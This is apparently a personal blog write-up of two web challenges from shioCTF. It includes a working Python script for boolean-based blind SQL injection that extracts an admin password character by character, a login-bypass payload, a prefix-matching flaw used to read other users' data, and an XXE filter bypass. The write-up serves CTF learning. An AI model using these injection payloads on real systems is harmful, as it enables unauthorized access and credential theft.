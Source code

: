 ```yaml
---
title: "shioCTF"
date: 2024-02-13T08:51:14-03:00
draft: true
tags:
- CTF
- shioCTF 
---
```


On Monday, February 12th I had the opportunity to participate in [shioCTF](https://ctf.shiosalt.dev), a small CTF with the occasion of celebrating the host's birthday (お誕生日おめでとう！). Below is a short writeup for the two Web challenges in it.

<!--more-->

## SimpleDB
"adminのパスワードを特定してください！" // 
"Please retrieve the admin password"

Inside the given URL we have a simple form with two fields: "Username" and "Password". Throwing some garbage data we see the used DB is `sqlite3`.

Trying a simple SQL Injection with `admin' OR 1=1;--` nets us the message `"Login successful!"`... but that's not what we're here for.

Googling around for some ways to extract information about a field in sqlite3, I came across [this post](https://s-3ntinel.github.io/ctfs/imaginary_ctf2021/web/awkward_bypass/awkward_bypass.html) which seems to describe a similar enough situation calling for a `boolean-based sql injection`.

Copying their code and editing the requests slightly, we end up with:

```python
import requests
import string

db_data = ''
for pos in range(9,32): # we already know the flag starts with shioCTF{
    for char in (string.printable.replace('\'','')): # the ' character threw quite a few errors so I decided to skip it
        p = "\\' OR 1=1 AND (SELECT hex(substr(password," + str(pos) + ",1)) FROM users) = hex('" + str(char) + "');--"
        # here we perform an SQL injection on the password and then include a clause to only get successful logins if the nth character of the password coincides with the currently iterated character
        h = {'Content-Type': 'application/x-www-form-urlencoded'}
        d = {'username': 'admin', 'password': p}
        r = requests.post('http://20.205.137.99:49999/', headers=h, data=d)

        # used while debugging
        # print(char, r.content.decode())
        if 'successful' in r.content.decode():
            db_data += str(char) # append character to our exfiltrated password
            print(db_data)
            break

print('Final: shioCTF{' + db_data + '}')
```

And after letting it iterate over each character we end up with `shioCTF{b1ind_sqli_i5_d4nger0u5!}` as our flag for this challenge.

## Card

"誕生日カードを送り合えるWebアプリができました！" // 
"I made a web app to send birthday cards!"

Going in we have two options, send birthday card and see received birthday cards

Send birthday card presents a form with two fields: "address (cookie emoji)" and "message". 
Checking our local cookies, we see we've been assigned a `userid`, this is probably how we send a card to ourselves.
Trying with an example card, we confirm that indeed by using our `userid` as address we can see our sent cards.

Taking a look at the challenge code, we spot it's a Flask app and it processes sent cards as text inside an XML with `etree`. More importantly, it seems there's some safeguards in place to protect from malicious XML with:

```python
card_data = card_data.replace('&','')

card_data = card_data.replace('%','')
```

Changing angles a bit, there is really no verification at all done on the sent `userid`, the search just picks up the files that start with the given `userid`, therefore we can just send a shorter one until we get all of the submitted cards.
Doing so, we find the flag to be `shioCTF{UTF7_1s_u5efu1_enc0d1ng}`

### Analysis
From the flag text, I'm assuming the expectation was to `UTF7` encode the message in order to get around the replacements for `&` and `%` symbols and attempt an XML External Entity Injection. I'd like to come back to this and try the "correct" solution.

# Conclusion

Overall, the two excercises were fun challenges that brough me back to why I enjoy CTFs: few things come close to the feeling of trying a solution you're not quite sure of and slowly seeing the pieces of the puzzle come into place. Having whet my appetite, I'm looking forward to the next CTF on my radar: Hackthebox's [Cyber Apocalypse 2024](https://www.hackthebox.com/events/cyber-apocalypse-2024)!
